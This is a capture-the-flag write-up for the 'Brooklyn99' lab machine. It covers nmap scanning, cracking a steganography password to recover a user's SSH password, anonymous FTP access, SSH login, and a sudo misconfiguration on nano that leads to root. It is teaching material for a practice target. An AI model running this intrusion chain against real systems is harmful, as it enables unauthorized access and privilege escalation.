

# Brooklyn99 CTF


## NMAP

```
┌──(kali㉿kali)-[~/Desktop/Brooklyn99]
└─$ sudo nmap -sS -p- 10.10.53.31
Nmap scan report for 10.10.53.31
Host is up (0.052s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 100.05 seconds
                                                                  
┌──(kali㉿kali)-[~/Desktop/Brooklyn99]
└─$ sudo nmap -sSVC -p 21,22,80 10.10.53.31           
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-31 18:52 EDT
Nmap scan report for 10.10.53.31
Host is up (0.048s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.191.218
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.92 seconds
```

## Website


```
<p>This example creates a full page background image. Try to resize the browser window to see how it always will cover the full screen (when scrolled to top), and that it scales nicely on all screen sizes.</p>
<!-- Have you ever heard of steganography? -->
```

The banner image is encoded with a password.


## Stegcracker

```
┌──(kali㉿kali)-[~/Desktop/Brooklyn99]
└─$ stegcracker brooklyn99.jpg /usr/share/wordlists/fasttrack.txt 
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2023 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which 
will blast through the rockyou.txt wordlist within 1.9 second as opposed 
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/fasttrack.txt'..
Successfully cracked file with password: admin
Tried 129 passwords
```

```
┌──(kali㉿kali)-[~/Desktop/Brooklyn99]
└─$ steghide extract -sf brooklyn99.jpg -p admin
wrote extracted data to "note.txt".

┌──(kali㉿kali)-[~/Desktop/Brooklyn99]
└─$ cat note.txt 
Holts Password:
fluffydog12@ninenine

Enjoy!!

```


## FTP

```
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.53.31  
Connected to 10.10.53.31.
220 (vsFTPd 3.0.3)
Name (10.10.53.31:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||21262|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> 
```

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```


## SSH

Login in to ssh with holt's password

```
┌──(kali㉿kali)-[~/Desktop/Brooklyn99]
└─$ ssh holt@10.10.53.31              
The authenticity of host '10.10.53.31 (10.10.53.31)' can't be established.
ED25519 key fingerprint is SHA256:ceqkN71gGrXeq+J5/dquPWgcPWwTmP2mBdFS2ODPZZU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.53.31' (ED25519) to the list of known hosts.
holt@10.10.53.31's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ 
```

## PrivEsc

```
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```




```
# whoami
root
```